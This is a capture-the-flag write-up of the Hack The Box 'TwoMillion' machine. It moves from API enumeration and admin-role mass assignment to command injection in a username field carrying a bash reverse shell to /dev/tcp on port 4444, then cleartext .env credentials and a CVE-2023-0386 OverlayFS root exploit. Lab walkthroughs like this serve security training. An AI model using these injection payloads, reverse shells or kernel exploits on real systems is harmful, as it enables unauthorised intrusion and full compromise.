



<p align="center">
  
</p>

---

- 🎯 **Target:** Hack The Box - **TwoMillion**
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 24.05.2025
- 💻 **Platform:** Linux
- 📊 **Difficulty:** Easy

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#reconnaissance-)
- [Entry Point](#entry-point)
- [Initial Access](#initial-access)
- [Horizontal Privilege Escalation](#horizontal-privilege-escalation)
- [Vertical Privilege Escalation](#vertical-privilege-escalation)
- [CVE-2023-0386 - Linux Kernel](#cve-2023-0386-linux-kernel)
- [Conclusion](#conclusion)


## Summary

| Stage         | Info                                			     |
|---------------|------------------------------------------------------------|
| Entry Point   | list of api endpoints - `/api/v1/admin/...`                |
| User Flag     | `1505519cd1aa6448d6124a87ccbf660b`                         |
| Root Flag     | `bb76a115beb7301373c4d726cbf0fd75`                         |
| Credentials   | `admin`:`SuperDuperPass123` (local user in the system)     |

---

> Adding ip address to /etc/hosts:

```bash

echo '10.10.11.221 twomillion.htb' | sudo tee -a /etc/hosts

```

---

## Reconnaissance 🕵️

> Scanning the target for open ports and services

```bash

nmap -sVC -p- -vv -T5 twomillion.htb -oN TwoMillion_TCP_Scan_Nmap

```

> Result:

```bash

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack ttl 63 nginx
|_http-title: Did not follow redirect to http://2million.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS

```

> There are open ports `22 (ssh)` and `80 (web)`. **Nginx** web server in Ubuntu.

> I go to the main page on port **80**:


> The web server already has its own domain set up - `2million.htb`. I'll also add it to `/etc/hosts`.

> Need to find out what hidden **directories** or **subdomains** there are. I'll scan the target with `ffuf`:

```bash

ffuf -u 'http://2million.htb/FUZZ' -w /usr/share/wordlists/dirb/big.txt -mc all -ac

```

> Result:

```bash

404                     [Status: 200, Size: 1674, Words: 118, Lines: 46, Duration: 46ms]
api                     [Status: 401, Size: 0, Words: 1, Lines: 1, Duration: 47ms]
home                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 104ms]
invite                  [Status: 200, Size: 3859, Words: 1363, Lines: 97, Duration: 48ms]
login                   [Status: 200, Size: 3704, Words: 1365, Lines: 81, Duration: 101ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 99ms]
register                [Status: 200, Size: 4527, Words: 1512, Lines: 95, Duration: 98ms]
:: Progress: [20469/20469] :: Job [1/1] :: 375 req/sec :: Duration: [0:00:47] :: Errors: 0 ::

```

> I see directories with forms `login` , `register` and `invite`.

> I checked the login form for **SQL injections** and tried standard credentials for authorization. But nothing helped. I did not get access.
> I was interested in the `/invite` directory.

> I go to the address `http://2million.htb/invite` and see the `Invite Code` form:


> I intercept the request in **BurpSuite** to find out the logic of this form:

> Request:

```html

POST /api/v1/invite/verify HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 8
Origin: http://2million.htb
Connection: keep-alive
Referer: http://2million.htb/invite
Cookie: PHPSESSID=b6haeitdo3u52aqtrqjsko2hfb
Priority: u=0

```html
code=123

```

> Response:

```html

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 25 May 2025 15:41:57 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 67

{"0":400,"success":0,"error":{"message":"Invite code is invalid!"}}

```
> invalid code


> There is internal logic that checks the entered code, somehow verifies it. I find out which `javascript` files are loaded for execution.

> I intercept the request to `http://2million.htb/invite` in BurpSuite:

> Request:

```html

GET /invite HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/
Connection: keep-alive
Cookie: PHPSESSID=b6haeitdo3u52aqtrqjsko2hfb
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

> Response:


> I see `inviteapi.min.js` file, which is related to processing the `Invite Code` form.

> I open the file in the browser and see obfuscated `javascript` code:

> obfuscated code


> I translate this code into a readable form over `js-beautify` tool:

```bash

js-beautify js_invite.txt > js_invite_decode.txt

cat js_invite_decode.txt

function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}%


```

> Okay. I see **two functions** that process the form via `AJAX (jQuery)`: `verifyInviteCode(code)` and `makeInviteCode()`.

> **The first** function checks the validity of the entered invite code by sending a **POST** request to `/api/v1/invite/verify`. If the code passes the
> check `response[0] === 200` and `response.success === 1` then the code is saved to `localstorage`. If not, I get an error.

> **The second** function generates a new `invite code` by sending a **POST** request to `/api/v1/invite/how/to/generate`.

> It is important to note that both functions interact with the server `api` which is part of the backend logic. This means that on the server side,
> requests from such forms are processed by the server using different `api` addresses **(It is important to remember - you will need this)**

> I'm trying to generate a new invitation code for myself via a **POST** request to the server `api` that generates new codes:

> Request:

```http

POST /api/v1/invite/how/to/generate HTTP/1.1

```
> Response:


> string with data `Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr` is encrypted with `ROT13`

> **Note:** `ROT13` - is a simple symmetric encryption algorithm that replaces each letter of the Latin alphabet with the letter 13 positions further down the alphabet.

> I will use the service `CyberChief` to decrypt:


> I receive decrypted data `In order to generate the invite code, make a POST request to /api/v1/invite/generate`.

> I send a POST request `/api/v1/invite/generate` to generate the invite code:

> Request:
```http

POST /api/v1/invite/generate HTTP/1.1

```

> Response:


> The code `VkRQQlctQlpZWVItVFdSN04tOEVZREk=` is encrypted in `base64`.

```bash

sonyahack1 kali ~                                                                            07:42:12 PM
❯ echo 'VkRQQlctQlpZWVItVFdSN04tOEVZREk=' > encoded.txt

sonyahack1 kali ~                                                                            07:42:32 PM
❯ base64 -d encoded.txt > decoded.txt

sonyahack1 kali ~                                                                            07:42:43 PM
❯ more decoded.txt
VDPBW-BZYYR-TWR7N-8EYDI

sonyahack1 kali ~                                                                            07:42:45 PM
❯

```
> Invite code is `VDPBW-BZYYR-TWR7N-8EYDI`. I use it that create account:


> Account main page:


> 

```html

GET /home HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/login
Connection: keep-alive
Cookie: PHPSESSID=b6haeitdo3u52aqtrqjsko2hfb
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```
> I draw your attention to the file `htb-backend.min.js`:


> I also run obfuscated `javascript` code through `js-beautiful`:

```bash

js-beautify js_backend.txt > js_backend_decode.txt

```

> Let me remind you that the logic for processing requests on the server side is the responsibility of the `api` addresses:



> I see a lot of `url:"/api/..."` requests. Let's see what a GET request for `/api` in BurpSuite shows:

> Request:

```html

GET /api HTTP/1.1

```
> Response:


> The server returns a list of available versions of this `api` and in this case I see that there is `version 1`. I request a list of `api endpoints` for this version:

> Request:

```html

GET /api/v1 HTTP/1.1

```
> Response:


> Great. I got a list of interesting api addresses. It's my **Entry Point.**

---

## 🚪 Entry Point

> For a user with the `admin` role there are three urls: `/api/v1/admin/auth` - check if the user is an administrator,
> `/api/v1/admin/vpn/generate` - generate a VPN file and `/api/v1/admin/settings/update` - change user settings.

> Checking if I have an administrator role

```http

GET /api/v1/admin/auth HTTP/1.1

```
> Response
```http

{"message":false}

```

> Well obviously not :)

> And accordingly I also don’t have the rights to generate a VPN file for myself as an administrator:

> Request:

```http

POST /api/v1/admin/vpn/generate HTTP/1.1

```

> Response

```http

HTTP/1.1 401 Unauthorized

```

> Ok. I'm trying to upgrade myself to the `admin` role.

> url `/api/v1/admin/settings/update` allows me to change the settings for my account:

```http

PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/login
Connection: keep-alive
Cookie: PHPSESSID=guumgoatkrnif4lod94v2mun7v
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```
> Response:

```html

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 25 May 2025 18:50:36 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 53

{"status":"danger","message":"Invalid content type."}

```
> `Invalid content type.`

> adding `Content-Type` header for correct PUT request:

```http

PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/login
Content-Type: application/json
Connection: keep-alive
Cookie: PHPSESSID=guumgoatkrnif4lod94v2mun7v
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

> Response:

```http

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 25 May 2025 18:51:47 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 56

{"status":"danger","message":"Missing parameter: email"}

```
> `Missing parameter: email`

> I add the `email` parameter to the request body:

```http

PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/login
Content-Type: application/json
Connection: keep-alive
Cookie: PHPSESSID=guumgoatkrnif4lod94v2mun7v
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 26

{

"email": "a@a.com"

}

```
> Response:

```http

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 25 May 2025 18:52:59 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 59

{"status":"danger","message":"Missing parameter: is_admin"}

```
> `missing parameter: is_admin`

> I add the `is_admin` parameter and immediately enter the value `1` as an analogue for **"true"** (`0` for **"false"**):

```http

PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/login
Content-Type: application/json
Connection: keep-alive
Cookie: PHPSESSID=guumgoatkrnif4lod94v2mun7v
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 42

{

"email": "a@a.com",
"is_admin": 1

}

```

> Response:

```http

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 25 May 2025 18:54:26 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 46

{"id":13,"username":"sonyahack1","is_admin":1}

```

> Ok. Now the user `sonyahack1` (that's me) is assigned the role `admin`. You can check this by repeating the request to the api endpoints `/api/v1/admin/auth`:

```http

GET /api/v1/admin/auth HTTP/1.1

```
> Response:

```http

{"message":true}

```
---
> **Note:** I want to clarify that I could of course skip all these similar (and possibly tedious) steps for composing a correct PUT request and not describe them in my writeup.
> For many this will be obvious. But I think it is important to explain that such PUT requests must have a correct form so that the server can process them.
> Otherwise this is equivalent to an error.
---

> Repeating the request to generate a VPN file for the `admin` role:

> Request:
```http

POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Referer: http://2million.htb/
Connection: keep-alive
Cookie: PHPSESSID=guumgoatkrnif4lod94v2mun7v
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 32

{

"username": "sonyahack1"

}

```
> **Note:** I also draw attention to the importance of a correct request. The `Content-Type` header and the `username` parameter in the request body are required.

> Response:


> Great. I got the configuration output for the `ovpn` file.

---
## 🔓 Initial Access

> Checking the possibility for `command injection`. I substitute the `whoami` command into the request body (for example):

```http

{

"username": "sonyahack1; whoami ;"

}

```
> Response:

```http

www-data

```
> Ok. Command injection works, so I can try to create a connection to gain access to the system.
> I make a request with reverse shell:

```http

{

"username": "sonyahack1; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.15/4444 0>&1' ;"

}

```

> **Note:** I pre-start the listener:

```bash

nc -lvnp 4444

```

> I send a request and get a `reverse shell` to the target system under the `www-data` user.

> initial access


---

## ➡️🧍 Horizontal Privilege Escalation

> Checking local users in the system:

```bash

www-data@2million:~/html$ cat /etc/passwd | grep -i bash | cut -d: -f1

root
www-data
admin

```

> Ok. I see the user `admin`. I need to access it.

> In the web directory `/var/www/html` there is an environment file `.env` which contains the password for the user `admin`

```bash

www-data@2million:~/html$ ls -lah
total 56K
drwxr-xr-x 10 root root 4.0K May 25 19:20 .
drwxr-xr-x  3 root root 4.0K Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1.3K Jun  2  2023 Database.php
-rw-r--r--  1 root root 2.8K Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4.0K May 25 19:20 VPN
drwxr-xr-x  2 root root 4.0K Jun  6  2023 assets
drwxr-xr-x  2 root root 4.0K Jun  6  2023 controllers
drwxr-xr-x  5 root root 4.0K Jun  6  2023 css
drwxr-xr-x  2 root root 4.0K Jun  6  2023 fonts
drwxr-xr-x  2 root root 4.0K Jun  6  2023 images
-rw-r--r--  1 root root 2.7K Jun  2  2023 index.php
drwxr-xr-x  3 root root 4.0K Jun  6  2023 js
drwxr-xr-x  2 root root 4.0K Jun  6  2023 views

www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
www-data@2million:~/html$

```
> Password for local user `admin` - `SuperDuperPass123`. Using these credentials, I connect via `ssh` and take the **first flag**:

```bash

ssh admin@10.10.11.221

```
> Result:

```bash

admin@2million:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
admin@2million:~$ ls -lah
total 32K
drwxr-xr-x 4 admin admin 4.0K Jun  6  2023 .
drwxr-xr-x 3 root  root  4.0K Jun  6  2023 ..
lrwxrwxrwx 1 root  root     9 May 26  2023 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 May 26  2023 .bash_logout
-rw-r--r-- 1 admin admin 3.7K May 26  2023 .bashrc
drwx------ 2 admin admin 4.0K Jun  6  2023 .cache
-rw-r--r-- 1 admin admin  807 May 26  2023 .profile
drwx------ 2 admin admin 4.0K Jun  6  2023 .ssh
-rw-r----- 1 root  admin   33 May 25 15:27 user.txt

admin@2million:~$ cat user.txt
1505519cd1aa6448d6124a87ccbf660b

admin@2million:~$

```

> user flag - `1505519cd1aa6448d6124a87ccbf660b`

---

## ⬆️🧑‍💼  Vertical Privilege Escalation

> Checking the system kernel version:

```bash

admin@2million:~$ uname -r

5.15.70-051570-generic

```

> In the search for vulnerabilities on the network for the current version of the kernel I found `CVE-2023-0386`:

> cve-2023-0386 - PoC


> **Note:** `CVE-2023-0386` is a critical vulnerability in the **OverlayFS** subsystem of the Linux kernel that could allow a local unprivileged
> user to escalate their privileges to **root** level. It affects Linux kernels prior to `6.2` and was patched in January 2023,
> and publicly disclosed in March 2023.

### CVE-2023-0386 - Linux Kernel

> exploit for this CVE: [CVE-2023-0386](https://github.com/puckiestyle/CVE-2023-0386)

> I clone the exploit to myself. Then I launch **http.server** and transfer all the files to the victim's machine.

```bash

wget -r -np -nH --cut-dirs=1 -R "index.html*" http://10.10.14.15:1111/CVE-2023-0386

```

> Compile files:

```bash

make all

```

> Next, you need to connect a second terminal window for the `admin` user. On one terminal, I run the executable files `./fuse` and `./overcap/lower` and `./gc`.
> On the second terminal, the exploit itself is `./exp`.

> Terminal `one`
```bash

admin@2million:~$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0

```
> Terminal `two`
```bash

admin@2million:~$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 May 25 19:57 .
drwxrwxr-x 6 root   root     4096 May 25 19:57 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:~#

root@2million:~# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)

root@2million:~# cd /root/

root@2million:/root# ls -lah
total 48K
drwx------  8 root root 4.0K May 25 15:27 .
drwxr-xr-x 19 root root 4.0K Jun  6  2023 ..
lrwxrwxrwx  1 root root    9 Apr 27  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Oct 15  2021 .bashrc
drwx------  2 root root 4.0K Jun  6  2023 .cache
drwxr-xr-x  3 root root 4.0K Jun  6  2023 .cleanup
drwx------  4 root root 4.0K Jun  6  2023 .gnupg
drwxr-xr-x  3 root root 4.0K Jun  6  2023 .local
lrwxrwxrwx  1 root root    9 May 26  2023 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 May 25 15:27 root.txt
drwx------  3 root root 4.0K Jun  6  2023 snap
drwx------  2 root root 4.0K Jun  6  2023 .ssh
-rw-r--r--  1 root root 3.7K Jun  6  2023 thank_you.json

root@2million:/root# cat root.txt

bb76a115beb7301373c4d726cbf0fd75

root@2million:/root#

```
> I get root.

---
> **Note:** how does this work? In simple terms:

> `OverlayFS` is a file system that combines two layers: the bottom (read-only) and the top (write). When a process creates a file
> that already exists in the bottom layer, OverlayFS copies it to the top layer. In a vulnerable version of the Linux kernel, the copying mistakenly preserves the
> file owner (UID) and the SUID bit set, even if the file was not created by root, for example, via FUSE.

> The exploit itself consists of two parts: `fuse.c` and `exp.c`. In short, `fuse.c` prepares a malicious file with a shell. It
> mounts a virtual FUSE file system and creates a file with a reverse shell and sets the suid flag 04777 and the owner with uid=0 (that is, root).
> `ovlcap` is a directory that will contain this binary with root rights. This is essentially the bottom layer of overlayFS. `exp.c` executes this binary.

> It creates the necessary directories, mounts overlayFS and triggers copying the file from the lower word to the upper one. The copy preserves the root owner and suid bit.

> summing up. In general, it will look something like this:

- `./fuse ./ovlcap/lower ./gc` — mounts FUSE FS, where ./gc is the prepared root-shell.
- FUSE creates a virtual file /file with owner root and permissions 04777.
- exp.c` mounts OverlayFS:
	- lowerdir = ./ovlcap/lower (with FUSE root file)
	- upperdir = ./ovlcap/upper
	- workdir = ./ovlcap/work
	- merged mount = ./ovlcap/merge

- OverlayFS creates file (in merge/), which triggers copying from lower to upper/
- `exp.c` then runs ./ovlcap/upper/file — gaining `root access`

---

> root flag - `bb76a115beb7301373c4d726cbf0fd75`

---

## 🧠 Conclusion

> During the walkthrough of this machine, insecure APIs were found that allowed command injection, which provided initial access to the system as the `www-data` user.
> On the system, cleartext credentials for the `admin` user were found in the `.env` file, which allowed horizontal privilege escalation. The final stage
> was the exploitation of a vulnerability in the Linux kernel `(CVE-2023-0386)`, which led to a complete compromise of the system. The `TwoMillion` machine demonstrates the
> importance of protecting APIs, controlling configuration files, and keeping the kernel up to date.

<p align="center">
  
</p>

---
